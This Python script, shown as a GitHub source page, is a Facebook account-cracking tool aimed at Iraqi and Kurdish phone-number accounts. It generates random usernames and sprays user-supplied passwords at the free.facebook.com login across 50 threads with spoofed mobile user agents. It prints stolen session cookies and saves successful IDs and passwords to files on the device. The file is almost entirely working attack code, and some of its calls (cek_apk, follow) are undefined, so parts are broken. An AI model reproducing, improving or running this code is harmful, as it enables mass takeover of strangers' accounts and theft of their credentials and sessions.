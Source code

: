 # SHEXAV3.py
SHEXAV3.py
#GEN CODESS FROM IPYTHONI
import os,sys,time,json,random,re,string,platform,base64,uuid

os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    


            
            

class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
ORANGE = '\033[1;35m'
GREEN = '\033[1;32m'
WHITE = '\033[1;97m' #
BLUE = '\033[1;33m'
YELLOW = '\033[1;33m'
RED = '\033[1;91m'
M = '\x1b[1;97m' # PUTIH
P = '\x1b[1;91m' # MERAH
K = '\x1b[1;92m' # HIJAU
H = '\x1b[1;93m' # KUNING
U = '\x1b[1;94m' # BIRU
B = '\x1b[1;95m' # UNGU
N = '\x1b[1;96m' # BIRU MUDA
O = '\x1b[0m'    # WARNA MATI
BN = '\x1b[1;90m' # WARNA ABU ABU
A = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
logo =                                          ("""
\033[1;91m 
 ______   _____          _        ______  ___  ____   
|_   _ \ |_   _|        / \     .' ___  ||_  ||_  _|  
  | |_) |  | |         / _ \   / .'   \_|  | |_/ /    
  |  __'.  | |   _    / ___ \  | |         |  __'.    
 _| |__) |_| |__/ | _/ /   \ \_\ `.___.'\ _| |  \ \_  
|_______/|________||____| |____|`.____ .'|____||____| 
 𝑮𝑰𝑻𝑯𝑼𝑷    : Blackhackerx
 𝘼𝙐𝙏𝙃𝙊𝙍       : @i4m_BLACK
 𝑻𝑬𝑳𝑬𝑮𝑹𝑨𝑴  : @NN8F8                 
 𝑻𝑬𝑳𝑬𝑮𝑹𝑨𝑴  : @ChannelStef
 𝑻𝑶𝑶𝑳 𝑵𝑨𝑴𝑬 : 𝑩𝑳𝑨𝑪𝑲         
              

\033[1;91m
\033[1;97m
\033[1;32m 
\033[1;32m  
                                        
""")
loop = 0
oks = []
cps = []



def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mWAIT FOR UPDATING \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNO INTERNET... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)

#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)
    
    
    jalan("\033[1;37m\t CRACK FOR KURDISH OR IRAQI")
    jalan('\033[1;36m     \t CODE PHONE NUMBER\n     \033[1;32m964780, \033[1;36m964770 ,\033[1;35m964751 ,\033[1;34m964750\033[0;97m')

    code = input(' CODE : ')
    os.system("clear")
    print("CHAND IDS AWE DAINE NMUNA BNUSA 3000")
    limit = int(input('CHAND IDS AWE BO CRACK :- '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[°|°] HOW MUCH PASSWORD  : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[°|°]   ADD PASSWORD : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;91m IDS: '+tl)
        print('\033[1;97m ONLY SUPPORT KOREK FOR CRACK')
        print('\033[1;32m#################################')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;34m >_CRACK TAWAW_<')

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m[OK BLACK]=  ' +cid+ ' | ' +ps+    '  \n \033[1;97mCOOKES = \033[1;97m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/ok.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                follow(self, session, coki)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30mCP = ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/cp.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r               %s[%s/%s]  [OK BLACK:%s]  [CP BLACK:%s] \r'%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

i()
